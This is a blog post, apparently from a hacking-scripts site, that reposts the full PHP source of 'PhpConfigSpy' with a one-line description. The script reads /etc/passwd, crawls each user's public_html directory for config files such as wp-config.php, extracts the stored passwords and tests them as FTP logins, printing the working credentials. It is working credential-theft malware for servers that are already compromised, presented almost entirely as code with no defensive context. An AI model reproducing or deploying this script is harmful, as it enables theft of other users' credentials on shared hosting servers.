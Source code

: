 ```yaml
---
id: 187
title: PhpConfigSpy
author: admin
layout: post
guid: http://hackingscripts.com/?p=187
permalink: /phpconfigspy/
categories:
  - PHP
tags:
  - PHP
  - PhpConfigSpy
---
```

This script appears to try to obtain login details for a compromised server.

## PhpConfigSpy Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php 
echo "&lt;html&gt;"; 
echo "&lt;title&gt;PhpConfigSpy v0.1&lt;/title&gt;&lt;body&gt;"; 

set_time_limit(0); 
################## 
@$passwd=fopen('/etc/passwd','r'); 
if (!$passwd) { 
  echo "[-] Error : coudn't read /etc/passwd"; 
  exit; 
} 
$path_to_public=array(); 
$users=array(); 
$pathtoconf=array(); 
$i=0; 

while(!feof($passwd)) { 
$str=fgets($passwd); 
if ($i&gt;35) { 
   $pos=strpos($str,":"); 
   $username=substr($str,0,$pos); 
   $dirz="/home/$username/public_html/"; 
   if (($username!="")) { 
       if (is_readable($dirz)) { 
           array_push($users,$username); 
           array_push($path_to_public,$dirz); 
       } 
   } 
} 
$i++; 
} 
################### 

######################### 
echo "&lt;br&gt;&lt;br&gt;"; 
echo "&lt;textarea name='main_window' cols=100 rows=20&gt;"; 

echo "[+] Founded ".sizeof($users)." entrys in /etc/passwd\n"; 
echo "[+] Founded ".sizeof($path_to_public)." readable public_html directories\n"; 

echo "[~] Searching for passwords in config.* files...\n\n"; 
foreach ($users as $user) { 
       $path="/home/$user/public_html/"; 
       read_dir($path,$user); 
} 

echo "\n[+] Done\n"; 

function read_dir($path,$username) { 
   if ($handle = opendir($path)) { 
       while (false !== ($file = readdir($handle))) { 
             $fpath="$path$file"; 
             if (($file!='.') and ($file!='..')) { 
                if (is_readable($fpath)) { 
                   $dr="$fpath/"; 
                   if (is_dir($dr)) { 
                      read_dir($dr,$username); 
                   } 
                   else { 
                        if (($file=='config.php') or ($file=='config.inc.php') or ($file=='db.inc.php') or ($file=='connect.php') or ($file=='wp-config.php') or ($file=='var.php') or ($file=='configure.php') or ($file=='db.php') or ($file=='db_connect.php')) { 
                           $pass=get_pass($fpath); 
                           if ($pass!='') { 
                              echo "[+] $fpath\n$pass\n"; 
                              ftp_check($username,$pass); 
                           } 
                        } 
                   } 
                } 
             } 
       } 
   } 
} 

function get_pass($link) { 
   @$config=fopen($link,'r'); 
   while(!feof($config)) { 
       $line=fgets($config); 
       if (strstr($line,'pass') or strstr($line,'password') or strstr($line,'passwd')) { 
           if (strrpos($line,'"')) 
              $pass=substr($line,(strpos($line,'=')+3),(strrpos($line,'"')-(strpos($line,'=')+3))); 
           else 
              $pass=substr($line,(strpos($line,'=')+3),(strrpos($line,"'")-(strpos($line,'=')+3))); 
           return $pass; 
       } 
   } 
} 

function ftp_check($login,$pass) { 
    @$ftp=ftp_connect('127.0.0.1'); 
    if ($ftp) { 
       @$res=ftp_login($ftp,$login,$pass); 
       if ($res) { 
          echo '[FTP] '.$login.':'.$pass."  Success\n"; 
       } 
       else ftp_quit($ftp); 
    } 
} 

echo "&lt;/textarea&gt;&lt;br&gt;"; 

echo "&lt;/body&gt;&lt;/html&gt;"; 
?&gt;
</pre>